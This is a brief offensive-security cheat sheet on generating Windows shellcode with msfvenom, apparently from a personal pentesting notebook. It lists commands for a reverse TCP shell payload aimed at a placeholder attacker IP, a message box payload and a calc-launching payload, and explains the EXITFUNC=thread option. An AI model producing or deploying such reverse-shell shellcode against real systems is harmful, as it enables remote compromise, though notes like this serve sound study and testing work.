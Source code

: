 ```yaml
---
description: 06/08/2022
---
```


# 🐚 Generating Shellcode w/ MSFVenom

## Examples

### Reverse Shells

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP_HERE LPORT=1337 -f c
```

### Windows Message Box

```
msfvenom -p windows/x64/messagebox EXITFUNC=thread -f c
```

### "Pop Calc"

```
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f c
```

## Notes

{% embed url="https://www.hacking-tutorial.com/tips-and-trick/what-is-metasploit-exitfunc/" %}

Why `EXITFUNC=thread`? It will specify a DLL and function to call when the payload is complete.&#x20;

`thread` is the most used in exploitation scenarios where the exploited process runs the shellcode in a subthread and upon exiting this thread will result in a working application/system (clean exit).
